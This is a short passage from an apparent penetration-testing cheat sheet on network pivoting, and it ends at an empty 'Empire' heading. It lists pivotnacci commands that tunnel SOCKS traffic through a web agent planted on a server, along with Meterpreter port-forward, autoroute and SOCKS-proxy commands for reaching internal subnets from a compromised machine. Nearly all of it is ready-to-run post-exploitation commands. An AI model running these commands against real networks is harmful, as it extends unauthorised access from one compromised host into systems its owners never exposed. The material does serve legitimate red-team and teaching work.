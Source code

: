 ## Web SOCKS - pivotnacci

[pivotnacci](https://github.com/blackarrowsec/pivotnacci), a tool to make socks connections through HTTP agents.

```powershell
pip3 install pivotnacci
pivotnacci  https://domain.com/agent.php --password "s3cr3t"
pivotnacci  https://domain.com/agent.php --polling-interval 2000
```


## Metasploit

```powershell
# Meterpreter list active port forwards
portfwd list 

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd add –l 3389 –p 3389 –r target-host 
portfwd add -l 88 -p 88 -r 127.0.0.1
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd delete –l 3389 –p 3389 –r target-host 
# Meterpreter delete all port forwards
portfwd flush 

or

# Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0
run autoroute -s 192.168.15.0/24 
use auxiliary/server/socks_proxy
set SRVPORT 9090
set VERSION 4a
# or
use auxiliary/server/socks4a     # (deprecated)


# Meterpreter list all active routes
run autoroute -p 

route #Meterpreter view available networks the compromised host can access
# Meterpreter add route for 192.168.14.0/24 via Session number.
route add 192.168.14.0 255.255.255.0 3 
# Meterpreter delete route for 192.168.14.0/24 via Session number.
route delete 192.168.14.0 255.255.255.0 3 
# Meterpreter delete all routes
route flush 
```

## Empire
